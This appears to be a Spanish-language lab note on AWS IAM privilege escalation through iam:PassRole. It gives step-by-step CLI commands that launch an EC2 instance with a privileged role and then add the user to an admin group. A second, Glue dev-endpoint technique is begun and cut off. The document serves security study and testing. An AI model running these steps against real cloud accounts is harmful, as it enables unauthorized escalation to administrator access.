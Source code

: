# Si el usuario tiene el permiso IAM:PassRole* se pueden presentar los siguientes escenarios.  
## CreateEC2WithExistingIP  
### Permisos Requeridos: iam:PassRole y ec2:RunInstances  

```bash
aws iam list-attached-user-policies --user-name privesc3-CreateEC2WithExistingInstanceProfile-user  

aws iam get-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc3-CreateEC2WithExistingInstanceProfile --version-id v1  

aws sts assume-role --role-arn arn:aws:iam::583318501385:role/privesc3-CreateEC2WithExistingInstanceProfile-role --role-session-name privesc3  

aws ec2 run-instances --image-id ami-0022f774911c1d690 --instance-type t2.micro --iam-instance-profile Arn=arn:aws:iam::583318501385:instance-profile/perfil.ec2 --key-name "Nombre-llave.ssh" --security-group-ids sg-0230440b7ca1565ce --region us-east-1 --profile privesc3  

aws ec2 describe-instances --instance-id i-0dc0d8712f11c25ca --region us-east-1 --profile privesc3  

ssh ec2-user@35.175.174.111 -i Nombre-llave.pem  
```

Dentro de la instancia:  
```bash
aws sts get-caller-identity  
```

Dentro de la instancia:  
```bash
aws iam add-user-to-group --group-name Group-Root-Prueba --user-name privesc3-CreateEC2WithExistingInstanceProfile-user  
```
		
## PassExistingRoleToNewGlueDevEndpoint  
### Permisos Requeridos: iam:PassRole y glue:CreateDevEndpoint  

```bash
aws iam list-attached-user-policies --user-name privesc18-PassExistingRoleToNewGlueDevEndpoint-user  

aws iam get-policy-version --policy-arn arn:aws:iam::037572360634:policy/privesc18-PassExistingRoleToNewGlueDevEndpoint --version-id v1  
```

Creamos unas llaves ssh  
```bash
ssh-keygen  
```
